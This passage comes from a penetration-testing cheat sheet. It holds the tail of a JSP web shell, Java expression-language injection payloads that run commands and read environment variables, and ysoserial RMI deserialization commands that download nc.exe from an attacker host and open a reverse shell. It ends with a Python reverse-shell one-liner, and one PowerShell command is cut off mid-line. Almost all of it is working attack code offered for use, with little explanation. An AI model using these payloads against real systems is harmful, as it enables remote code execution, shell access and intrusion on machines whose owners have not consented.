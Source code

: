 ```jsp
        cmdFull = "cmd.exe /C " + cmd;
      }
      Process p = Runtime.getRuntime().exec(cmdFull);
      BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
      while((s = sI.readLine()) != null) {
        output += s;
      }
    } catch(IOException e) {
      e.printStackTrace();
    }
  }
%>
<pre>
  <%=output %>
</pre>
```

##### Parameter Injection
```java
${T(java.lang.Runtime).getRuntime().exec('<cmd>')}
<%=T(java.lang.Runtime).getRuntime().exec('<cmd>')%>
${class.getClassLoader()}
${class.getResource("").getPath()}
${T(java.lang.System).getenv()}
```

##### Deserialization
Use ysoserial to exploit Java deserialization vulnerabilities. Download from [here](https://github.com/frohoff/ysoserial).

Deploy payload:
```sh
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 <command or payload>
```

NC upload and reverse shell:
```sh
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "powershell -c \"(new-object System.Net.WebClient).DownloadFile('http://<local-ip>/nc.exe','C:\<path>\nc.exe')\""
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "C:\<target-folder>\nc.exe -nv <local-ip> <local-port> -e cmd.exe"
```

Powershell:
```sh
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "powers

hell -c \"$c
```

#### Python
##### Reverse Shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
